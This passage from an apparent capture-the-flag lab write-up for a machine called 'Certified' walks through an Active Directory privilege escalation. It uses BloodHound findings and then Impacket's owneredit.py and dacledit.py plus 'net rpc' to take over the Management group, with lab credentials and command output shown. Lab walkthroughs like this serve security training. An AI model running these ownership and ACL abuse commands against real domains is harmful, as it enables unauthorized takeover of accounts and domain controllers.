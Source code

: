 After uploading the data to bloodhound as a zip file we can see that judith has a path to management_svc which can PSRemote to the domain controller. With the ability to land a powershell session into the DC comes the possibility of privilege escalation.

![certified](/assets/images/certified/judith.png)

## Taking Advantage of WriteOwner 
First we must change the group owner of the management group and assign us the ability to add members to this group, we can then add the judith user. To do so we can use the following set of commands:

```
owneredit.py  -action write -new-owner 'judith.mader' -target 'management' 'certfified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] - sAMAccountName: judith.mader
[*] - distinguishedName: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

Judith is now the new owner of this group, we can grant ourselves the AddMember privilege with the following command:

```
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250529-202124.bak
[*] DACL modified successfully!
```

Finally we can add judith to the group from which we can leverage the GenericWrite privilege over the management_svc user. 

```
net rpc group addmem "Management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "10.10.11.41"
```

